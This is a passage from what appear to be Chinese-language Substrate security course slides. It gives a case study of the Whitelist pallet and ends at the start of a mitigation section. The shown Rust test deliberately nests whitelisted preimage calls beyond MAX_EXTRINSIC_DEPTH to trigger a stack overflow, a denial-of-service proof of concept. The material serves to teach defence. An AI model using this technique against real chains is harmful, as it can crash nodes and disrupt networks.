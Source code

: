 ```rust [0|5-8|14-20|22-31|37-47]
                frame_system::Call::remark_with_event { remark: vec![1] }
            );
        let mut call_weight = call.get_dispatch_info().weight;
        let mut encoded_call = call.encode();
        let mut call_encoded_len = encoded_call.len() as u32;
        let mut call_hash = <Test as frame_system::Config>::Hashing::hash(&encoded_call[..]);

        // 需要创建的嵌套调用数量
        // 由于以下值小于导致栈溢出的最小调用数量，此测试不会崩溃
        let nested_calls = sp_api::MAX_EXTRINSIC_DEPTH;

        // 以下行用于在解码（模块）时获取栈溢出错误
        let nested_calls = nested_calls*4;

        // 创建嵌套调用
        for _ in 0..=nested_calls {
            call = RuntimeCall::Whitelist(crate::Call::dispatch_whitelisted_call_with_preimage {
                call: Box::new(call.clone()),
            });
            call_weight = call.get_dispatch_info().weight;
            encoded_call = call.encode();
            call_encoded_len = encoded_call.len() as u32;
            call_hash = <Test as frame_system::Config>::Hashing::hash(&encoded_call[..]);
        }

        // 将调用列入白名单以能够调度它
        assert_ok!(Preimage::note(encoded_call.into()));
        assert_ok!(Whitelist::whitelist_call(RuntimeOrigin::root(), call_hash));

        // 发送要调度的调用
        // 如果嵌套调用数量过高，这将引发栈溢出
        println!("Dispatching with {} nested calls", nested_calls);
        assert_ok!(
            Whitelist::dispatch_whitelisted_call(
                RuntimeOrigin::root(),
                call_hash,
                call_encoded_len,
                call_weight
            ),
        );
    });
}
```
</div>
---v
### 案例研究 - 白名单模块 - 攻击结果
<img rounded style="height: 500px" src="./img/stack-overflow.webp" />
---v
### 案例研究 - 白名单模块 - 缓解措施
<div style="font-size: smaller">
```rust [0|18-22]
// 易受攻击的白名单模块重制版
pub fn dispatch_whitelisted_call(
    origin: OriginFor<T>,
    call_hash: PreimageHash,
    call_encoded_len: u32,
    call_weight_witness: Weight,
) -> DispatchResultWithPostInfo {
    T::DispatchWhitelistedOrigin::ensure_origin(origin)?;

    ensure!(
```
